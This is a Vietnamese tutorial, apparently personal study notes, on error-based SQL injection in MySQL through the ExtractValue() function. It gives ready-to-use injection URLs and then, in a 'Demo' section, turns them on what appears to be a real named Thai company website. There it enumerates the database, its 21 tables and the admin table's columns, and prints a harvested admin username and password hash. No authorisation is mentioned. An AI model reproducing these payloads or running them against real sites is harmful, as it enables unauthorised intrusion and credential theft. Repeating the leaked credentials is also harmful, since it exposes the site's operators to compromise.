





### Người thực hiện: Trần Ngọc Nam
### Thời gian: 20/04/2022, 24/04/2022

# Mục lục:
1. [Error Based Injection using Extractvalue](#1)
2. [Demo](#2)

## Error Based Injection using Extractvalue:<a name="1"></a>

- Ta chỉ sử dụng một trong các chức năng XPATH đó là Extractvalue() để tạo ra lỗi và nhận được đầu ra.
- Hàm & qout; ExtractValue&qout trong MySQL chạy truy vấn XPath dựa trên chuỗi đại diện cho dữ liệu XML. Hàm lấy đầu vào có dạng: <code>ExtractValue('xmldatahere', 'xpathqueryhere')</code>.
- Nếu truy vấn XPath không chính xác về mặt cú pháp, ta nhận được thông báo lỗi: <code>XPATH syntax error: 'xpathqueryhere'</code>.
- Bây giờ, ta hãy thử tấn công bằng cách sử dụng tiêm XPATH <code>www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(OUR QUERY HERE)))--</code>.
- Đầu tiên, ta sẽ lấy cơ sở dữ liệu hiện tại.
  ```php
  www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(select database())))--
  Output : XPATH syntax error: ' database_name_here'
  ```
- Khi đó, ta đã có tên cơ sở dữ liệu.
- Tiếp theo, ta sẽ tìm các bảng trong cơ sở dữ liệu vừa tìm được.
  ```php
  www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))--
  Output : XPATH syntax error: 'table_name_here'
  ```
- Ở đây, ta sử dụng giới hạn vì ta không thể trích xuất dữ liệu có độ dài giới hạn tối đa 32 ký tự.
- Giả sử, ta có các bảng sau khi sử dụng truy vấn phía trên: <code>Posts</code>, <code>Assets</code>, <code>Banner</code>, <code>Links</code>, <code>Users</code>.
- Sau đó, ta có thể lấy thông tin các cột của table <code>users</code> thông qua: 
  ```php
  www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1)))--
  Output : XPATH syntax error: 'column_name_here'
  ```
- Sau khi thực hiện, ta sẽ nhận được tên các cột trong bảng users như <code>id</code>, <code>username</code>, <code>password</code>.
- Tiếp theo, ta có thể đếm số người dùng trong bảng <code>users</code>
  ```php
  www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(select count(username) from users)))--
  Output : XPATH syntax error: 'count_will_come_here'

  Hoặc

  www.vuln-web.com/index.php?view=-35" and extractvalue(0x0a,concat(0x0a,(select count(username,0x3a,password) from users limit 0,1)))--
  Output : XPATH syntax error: 'Output_here'
  ```

## Demo:<a name="2"></a>
- Sau khi tìm kiếm, ta đã biết được trang web <code>http://aminter.co.th/index.php</code> bị lỗi injection và có thể tấn công bằng error based injection với hàm extractvalue().
- Đầu tiên, ta chèn các kí tự gây lỗi và các kí tự để comment. Đầu tiên, ta chèn các kí tự gây lỗi và các kí tự để comment. Ta có được <code>--</code> có tác dụng trong trường hợp này.
- Thông thường, ta sẽ kiểm tra số lượng cột trong bước tiếp theo. Nhưng vì lần này, ta dùng hàm extractvalue() nên có thể bỏ qua bước này.
- Ta sẽ chuyển qua bước kiểm tra version của database <code>and extractvalue(0x0a,concat(0x0a,(select version())))--</code>
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20extractvalue(0x0a,concat(0x0a,(select%20version())))--
  ```
  
- Ở đây, ta có thể thấy database đang sử dụng phiên bản <code>5.5.44-log</code>.
- Tiếp theo, ta có thể trích xuất tên database với <code>and extractvalue(0x0a,concat(0x0a,(select database())))--</code>.
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20extractvalue(0x0a,concat(0x0a,(select%20database())))--
  ```
  
- Vậy, tên database là <code>aminter_aminter</code>.
- Để lấy được tên các table, ta dùng <code>and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))--</code>
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20extractvalue(0x0a,concat(0x0a,(select%20table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1)))
  ```
  
- Ta sẽ tăng limit lên liên tục cho tới khi lấy được tất cả các table của database.
- Sau khi kiểm tra, ta có tất cả 21 bảng bao gồm:
  | No. | Table name        |
  | --- | ----------------- |
  | 1   | ck_agent          |
  | 2   | ck_banner         |
  | 3   | ck_brand          |
  | 4   | ck_catalogue      |
  | 5   | ck_contact        |
  | 6   | ck_figure         |
  | 7   | ck_group          |
  | 8   | ck_member         |
  | 9   | ck_menu           |
  | 10  | ck_menufront      |
  | 11  | ck_news           |
  | 12  | ck_picnews        |
  | 13  | ck_product        |
  | 14  | ck_productbrand   |
  | 15  | ck_productpicture |
  | 16  | ck_productsub     |
  | 17  | ck_producttype    |
  | 18  | ck_subfigure      |
  | 19  | ck_subgroup       |
  | 20  | ck_user_admin     |
  | 21  | ck_welcome        |
- Từ các bảng, ta cần thông tin bảng <code>ck_user_admin</code>.
- Ta có thể thấy thông tin các cột thông qua <code>and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='ck_user_admin' limit 0,1)))--</code>
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20extractvalue(0x0a,concat(0x0a,(select%20column_name%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27ck_user_admin%27%20limit%200,1)))--
  ```
  
- Tương tự như kiểm tra cột, ta có:
  | No. | Column name        |
  | --- | ------------------ |
  | 1   | admin_id           |
  | 2   | admin_username     |
  | 3   | admin_pass         |
  | 4   | admin_name         |
  | 5   | admin_surname      |
  | 6   | admin_email        |
  | 7   | admin_tel          |
  | 8   | admin_active       |
  | 9   | admin_ip_login     |
  | 10  | admin_admin_create |
  | 11  | admin_admin_update |
  | 12  | admin_date_create  |
  | 13  | admin_date_update  |
  | 14  | admin_date_login   |
- Sau khi có thông tin các cột, ta dùng <code>and extractvalue(0x0a,concat(0x0a,(select concat(admin_username) from ck_user_admin limit 0,1)))--</code>
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20extractvalue(0x0a,concat(0x0a,(select%20concat(admin_username)%20from%20ck_user_admin%20limit%200,1)))--
  ```
  
- Và dùng <code>and extractvalue(0x0a,concat(0x0a,(select concat(admin_pass) from ck_user_admin limit 0,1)))--</code>
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20extractvalue(0x0a,concat(0x0a,(select%20concat(admin_pass)%20from%20ck_user_admin%20limit%200,1)))--
  ```
  
- Như vậy, ta đã có thông tin username: <code>hiddenwiki</code> và password: <code>cccc56525135d9fe92937ba95ea051</code>